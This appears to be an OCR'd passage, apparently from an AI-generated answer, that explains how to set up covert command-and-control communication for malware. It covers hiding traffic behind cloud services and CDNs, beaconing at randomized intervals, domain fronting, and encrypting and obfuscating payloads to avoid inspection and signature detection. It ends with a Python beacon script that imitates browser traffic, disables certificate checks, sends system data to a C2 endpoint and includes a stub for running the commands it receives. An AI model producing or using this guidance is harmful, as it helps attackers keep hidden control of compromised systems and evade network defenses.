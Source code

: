 4. **Utilize Legitimate Services**:
   - **Cloud Services**: Use cloud services (e.g., AWS, Azure, Google Cloud) as intermediaries. Traffic to these services is often trusted.
   - **CDNs**: Route traffic through Content Delivery Networks (CDNs) which are typically whitelisted.

5. **Establish C2 Communication**:
   - **Beaconing**: Use a beaconing mechanism that periodically checks in with the C2 server, using randomized intervals to avoid detection.
   - **HTTP(S) POST/GET Requests**: Encapsulate commands and data within standard HTTP(S) requests to avoid raising suspicion.
   - **Domain Fronting**: Leverage domain fronting to mask the true destination of the traffic. This technique takes advantage of CDN features to make traffic appear as if it’s going to a different domain.

6. **Avoid Detection**:
   - **Encryption**: Encrypt the payload to prevent deep packet inspection (DPI) from detecting malicious content.
   - **Payload Obfuscation**: Obfuscate the payload to avoid signature-based detection.

### Example of an HTTP Beacon in Python:

Here’s a simplified example of an HTTP beaconing script in Python that mimics legitimate traffic:

```python
import requests
import time
import random

# C2 server URL (example)
c2_url = "https://example.com/c2_endpoint"

# Headers to mimic legitimate traffic
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded"
}

def beacon():
    while True:
        try:
            # Example data to send
            data = {
                "beacon": "status_check",
                "system_info": "dummy_data"
            }
            
            response = requests.post(c2_url, headers=headers, data=data, verify=False)
            if response.status_code == 200:
                print("Beacon sent successfully.")
                # Handle response from C2 server
                handle_response(response.text)
            else:
                print(f"Error: {response.status_code}")
        except Exception as e:
            print(f"Exception: {e}")

        # Randomize sleep interval to avoid detection
        sleep_interval = random.randint(30, 300)  # 30 seconds to 5 minutes
        time.sleep(sleep_interval)

def handle_response(response_text):
    # Parse and execute commands from C2 server
    print(f"Received response: {response_text}")
    # Example: execute received command
```